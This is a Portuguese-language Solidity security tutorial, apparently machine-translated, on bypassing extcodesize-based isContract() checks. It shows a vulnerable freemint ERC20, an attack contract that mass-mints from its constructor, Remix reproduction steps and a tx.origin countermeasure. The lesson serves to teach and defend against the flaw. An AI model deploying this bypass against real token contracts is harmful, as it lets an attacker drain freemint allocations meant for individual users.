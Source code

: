 # Segurança do Contrato Solidity: S08. Bypass da Verificação do Contrato

Recentemente, tenho revisado meus conhecimentos em Solidity, reforçando os detalhes e escrevendo um "Guia Simplificado do WTF Solidity" para iniciantes (os programadores experientes podem buscar outros tutoriais). Atualizarei o guia com 1-3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

---

Nesta lição, vamos falar sobre como contornar a verificação do comprimento do contrato e apresentar métodos de prevenção.

## Bypass da Verificação do Contrato

Muitos projetos freemint utilizam a função `isContract()` para limitar a chamada do `msg.sender` a apenas contas externas (EOA), e não a contratos. Essa função usa o método `extcodesize` para obter o comprimento do `bytecode` armazenado no endereço (em tempo de execução). Se esse comprimento for maior do que zero, é considerado um contrato; caso contrário, é uma conta EOA (usuário).

```solidity
    // Verifica se é um contrato usando extcodesize
    function isContract(address account) public view returns (bool) {
        // Um endereço com extcodesize > 0 é considerado um contrato
        // Porém, durante a chamada do construtor do contrato, extcodesize é 0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

No entanto, há uma vulnerabilidade: quando um contrato está sendo criado, o `bytecode` de tempo de execução ainda não foi armazenado no endereço, portanto o comprimento do `bytecode` é 0. Isso significa que se colocarmos a lógica no construtor do contrato, podemos contornar a verificação do `isContract()`.

## Exemplo de Vulnerabilidade

Aqui está um exemplo: o contrato `ContractCheck` é um contrato ERC20 freemint, e a função de mintagem `mint()` utiliza a função `isContract()` para impedir chamadas de contrato a fim de evitar a mintagem em massa por programadores. Cada chamada do `mint()` pode criar 100 tokens.
 
```solidity
// Verifica se é um contrato usando extcodesize
contract ContractCheck is ERC20 {
    // Construtor: inicializa o nome e o símbolo do token
    constructor() ERC20("", "") {}
    
    // Verifica se é um contrato usando extcodesize
    function isContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // Função de mintagem, apenas chamadas de contas não-contratuais são permitidas (com vulnerabilidade)
    function mint() public {
        require(!isContract(msg.sender), "Contrato não permitido!");
        _mint(msg.sender, 100);
    }
}
```

Vamos criar um contrato de ataque que chama repetidamente a função `mint()` do contrato `ContractCheck` no construtor, realizando a mintagem de 1000 tokens em massa: 

```solidity
// Ataque aproveitando as características do construtor
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // Quando o contrato está sendo criado, extcodesize (comprimento do código) é 0, então não será detectado por isContract().
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // Isso funcionará
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // Após a criação do contrato, extcodesize > 0, isContract() consegue detectar
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

Se nossa hipótese estiver correta, chamadas da função `mint()` no construtor podem contornar a verificação do `isContract()` e realizar a mintagem com sucesso, e o estado da variável `isContract` será definido como `false`. Após a criação do contrato, quando o `runtime bytecode` já estiver armazenado, o `extcodesize > 0` e o `isContract()` serão capazes de evitar a mintagem, resultando em falha ao chamar a função `mint()`.

## Reprodução no Remix

1. Deploy do contrato `ContractCheck`.

2. Deploy do contrato `NotContract`, passando o endereço do contrato `ContractCheck` como parâmetro.

3. Use a função `balanceOf` do contrato `ContractCheck` para verificar o saldo de tokens do contrato `NotContract` como `1000`, indicando um ataque bem-sucedido.

4. Chame a função `mint()` do contrato `NotContract`; como o contrato já foi criado, a chamada da função `mint()` irá falhar.

## Medidas Preventivas

Você pode usar `(tx.origin == msg.sender)` para verificar se o chamador é um contrato. Se o chamador for uma EOA, `tx.origin` e `msg.sender` serão iguais; se forem diferentes, o chamador será um contrato.

```solidity
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## Conclusão

Nesta lição, discutimos como é possível contornar a verificação do comprimento do contrato e apresentamos métodos preventivos. Se o comprimento do `extcodesize` de um endereço for maior que zero, é um contrato; mas se for zero, o endereço pode ser tanto uma EOA quanto um contrato em processo de criação.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->